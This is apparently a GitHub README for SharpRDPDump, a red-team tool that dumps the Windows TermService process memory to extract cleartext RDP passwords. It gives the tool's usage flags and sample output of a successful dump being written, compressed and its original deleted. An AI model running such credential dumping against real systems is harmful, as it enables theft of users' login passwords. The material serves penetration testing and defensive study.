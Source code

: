 # SharpRDPDump
 Create a minidump of TermService for clear text pw extraction
all credits go to JonasLyk, nice explination found here :

https://pentestlab.blog/2021/05/24/dumping-rdp-credentials/amp/?__twitter_impression=true


Only works when compiled for x64. <br>


```
 ._________________.
 | _______________ |
 | I             I |
 | I    RDPDump  I |
 | I    @jfmaes  I |
 | I             I |
 | I_____________I |
 !_________________!
    ._[_______]_.
.___|___________|___.
|::: ____           |
|    ~~~~ [CD-ROM]  |
!___________________!



 Usage:
  -h, -?, --help             Show Help


  -l, --location=VALUE       the location to write the minidumpfile to
                               (default:%localappdata%\rdpdump.bin)
  -c, --compress             compressess the minidump and deletes the normal
                               dump from disk (gzip format)
                               
                             
```



```
SharpRDPDump.exe -c


 ._________________.
 | _______________ |
 | I             I |
 | I    RDPDump  I |
 | I    @jfmaes  I |
 | I             I |
 | I_____________I |
 !_________________!
    ._[_______]_.
.___|___________|___.
|::: ____           |
|    ~~~~ [CD-ROM]  |
!___________________!



termservice found, PID: 1736
[+] Dump successful!

[*] Compressing C:\Users\xxx\AppData\Local\rdpdump.bin to C:\Users\xxx\AppData\Local\rdpdump.bin.gz gzip file
[X] Output file 'C:\Users\xxx\AppData\Local\rdpdump.bin.gz' already exists, removing
[*] Deleting C:\Users\xxx\AppData\Local\rdpdump.bin

[+] Dumping completed.
 check C:\Users\xxx\AppData\Local\rdpdump.bin.gz
```

